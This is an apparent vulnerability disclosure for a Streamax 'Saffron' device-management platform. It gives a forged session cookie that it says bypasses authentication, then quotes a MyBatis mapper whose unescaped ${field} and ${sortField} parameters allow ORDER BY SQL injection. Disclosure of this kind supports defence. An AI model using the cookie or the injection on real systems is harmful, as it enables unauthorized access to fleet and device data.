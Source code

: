 ```
Cookie:Saffron.U="VUlEPTEmR0lEPTE3NTk4MTczMjgyMzg0NyZSSUQ9MSZNPUdNYXAmSU5TPTA="
```
<img width="525" height="475" alt="image" src="https://github.com/user-attachments/assets/e6a4be9c-d171-4426-8af6-66be581cb523" />

At this point, we have bypassed the authentication of this system.

### SQL Injection Vulnerability
<img width="2210" height="1395" alt="image" src="https://github.com/user-attachments/assets/ccd2a835-11af-4fee-80a8-952b3193a7bb" />

```xml
<mapper namespace="streamax.saffron.mapper.inters.operationstate.IDeviceInfoMapper">
	<select id="queryFromLast" parameterType="HashMap" resultType="DeviceInfo">
		select a.vehicleid,a.chipcode,a.platecolor,a.deviceno,a.devicetype,a.identification,d.*,b.groupname,c.simno
		from vehicledeviceinfo as a join last_deviceinfo as d on a.chipcode = d.chipcode  join 
		 groupinfo as b on a.groupid = b.groupid left join simcardinfo c on d.imsi=c.imsi
		<where>
			<if test="vehicleIdList.size()>0">
				a.vehicleId in 
				<foreach collection="vehicleIdList" item="vehicleId" separator="," open="(" close=")">
					#{vehicleId}
				</foreach>
			</if>
			<if test="field==null and value!=null">
  				and (a.chipcode like concat('%',#{value},'%') or a.carlicense like concat('%',#{value},'%') 
  				or a.deviceno like concat('%',#{value},'%') or a.identification like concat('%',#{value},'%')
  				or c.simno like concat('%',#{value},'%')
  				or a.devicetype like concat('%',#{value},'%') or d.ipcversion like concat('%',#{value},'%')
  				or d.cp4version like concat('%',#{value},'%') or d.gdsversion like concat('%',#{value},'%'))
  			</if>
  			<if test="field!=null and value!=null">
  				and ${field} like concat('%',#{value},'%')
  			</if>
		</where>
		<if test="sortField!=null">
			 order by ${sortField}
			 <if test="sortType=='desc'">
			 	desc 
			 </if> 
		</if>
		<if test="startIndex>=0">
			<if test="endIndex>=0">
				limit #{startIndex},#{endIndex}
			</if>
		</if>
	</select>
```
An **ORDER BY injection** vulnerability exists here.
